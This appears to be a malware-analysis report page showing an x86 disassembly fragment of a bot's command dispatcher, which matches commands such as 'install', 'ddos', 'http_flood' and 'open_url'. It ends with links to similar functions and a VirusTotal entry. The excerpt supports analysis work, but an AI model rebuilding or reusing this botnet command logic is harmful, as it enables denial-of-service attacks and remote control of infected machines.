 lea esi,[ebp-0x134]
push 8
mov edi,str.install
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x4065d4
push dword[ebp-0x484]
lea ecx,[ebp-0x1c0]
call fcn.00401caf
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x4065e9
lea esi,[ebp-0x134]
push 5
mov edi,str.ddos
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406608
push dword[ebp-0x484]
lea ecx,[ebp-0x1f8]
call fcn.00401caf
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x40661d
lea esi,[ebp-0x134]
push 0xb
mov edi,str.http_flood
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x40663c
push dword[ebp-0x484]
lea ecx,[ebp-0x284]
call fcn.00401caf
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x406651
lea esi,[ebp-0x134]
push 9
mov edi,str.open_url
pop ecx
xor eax,eax
repe cmpsb byte[esi],byte ptr es:[edi]
jne 0x406678
lea ecx,[ebp-0x230]
jmp 0x40666d
lea ecx,[ebp-0x134]
push dword[ebp-0x484]
call fcn.00401caf
lea eax,[ebp-0x490]
push eax
push ebx
call fcn.0040e0c0
inc dword[ebp-0x48c]
jmp 0x4064a5
cmp dword[ebp-0x120],0x10
mov esi,dword[ebp-0x134]
jae 0x4066a5
lea esi,[ebp-0x134]
push 8
mov edi,str.install
pop ecx

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6